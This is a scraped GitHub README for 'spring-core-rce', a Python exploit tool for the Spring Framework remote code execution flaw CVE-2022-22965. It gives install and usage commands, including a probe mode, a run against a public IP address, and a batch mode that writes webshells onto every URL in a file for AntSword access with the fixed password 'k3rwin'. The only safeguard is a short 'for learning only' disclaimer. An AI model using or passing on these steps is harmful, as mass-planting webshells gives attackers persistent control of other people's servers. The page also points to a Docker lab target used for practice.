 # spring-core-rce

spring框架RCE漏洞 CVE-2022-22965

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/k3rwin](https://github.com/k3rwin) |
| Url      | [https://github.com/k3rwin/spring-core-rce](https://github.com/k3rwin/spring-core-rce)                                               |
| Stars    | 28                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# Spring Core RCE/CVE-2022-22965

> 影响范围：JDK>=9 的spring框架及衍生框架
>
> [文章指路](https://thehackernews.com/2022/03/unpatched-java-spring-framework-0-day.html)
>
> **脚本仅供学习使用，如作他用所承受的法律责任一概与作者无关**

## 1.installation

~~~shell
pip3 install -r requirements.txt
~~~

## 2.Usage

```shell
$ python3 spring-core-rce.py -h

 .----..-.-. .---. .-..-. .-..----.     .----. .---. .---. .----.     .---. .----..----.
{ {__-`| } }}} }}_}{ ||  \{ || |--' ___ | }`-'/ {-. \} }}_}} |__} ___ } }}_}| }`-'} |__}
.-._} }| |-' | } \ | }| }\  {| }-`}{___}| },-.\ '-} /| } \ } '__}{___}| } \ | },-.} '__}
`----' `-'   `-'-' `-'`-' `-'`----'     `----' `---' `-'-' `----'     `-'-' `----'`----'


                                                 Spring framework Core RCE
                                                                  By:K3rwin
usage: spring-core-rce.py [-h] [-u URL] [-s SYSTEM] [-r FILE]

Spring framework Core 0day RCE 帮助指南

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     指定url
  -s SYSTEM, --system SYSTEM
                        指定目标主机操作系统,默认linux,参数为win/linux
  -r FILE, --file FILE  指定url文件，批量写马
```

## 3.example

>无损探测
>
>-u,--url    或者使用-f,--file批量探测
>
>-c,--check,参数为自建http服务，可用`python3 -m http.server 80`快速搭建一个web服务器
>
>主要在内网且要求无损探测漏洞的情况下使用

```shell
python3 spring-core-rce.py -u "http://172.26.155.18:8080/" --check "http://172.26.155.18"
```

![image-20220422153433867](README.assets/image-20220422153433867.png)

>使用 -u指定url，-s指定操作系统  参数为：linux 或者 win，默认为linux

```shell
python3 spring-core-rce.py -u "http://1.117.155.217:8080/" -s "linux"
```

![image-20220331203209702](README.assets/image-20220331203209702.png)

![image-20220331203858753](README.assets/image-20220331203858753.png)

> 使用 -r 批量写马 ，使用蚁剑连接，密码为k3rwin

~~~shell
python3 spring-core-rce.py -r "urls.txt"
~~~

![image-20220402112140568](README.assets/image-20220402112140568.png)

![image-20220402112349943](README.assets/image-20220402112349943.png)

## 4.Target

### ①.本地搭建docker靶场:

`docker pull vulfocus/spring-core-rce-2022-03-29:latest`

`docker run -d -p 8080:8080 --name spring-core-rce -it vulfocus/spring-core-rce-2022-03-29`

### ②.[在线靶场](http://vulfocus.io/#/dashboard)


## Get the content

```
git clone https://github.com/k3rwin/spring-core-rce
cd spring-core-rce
```

{% embed url="https://github.com/k3rwin/spring-core-rce" %}

<figure><img src="https://avatars.githubusercontent.com/u/59213152?v=4" alt=""><figcaption><p>k3rwin</p></figcaption></figure>
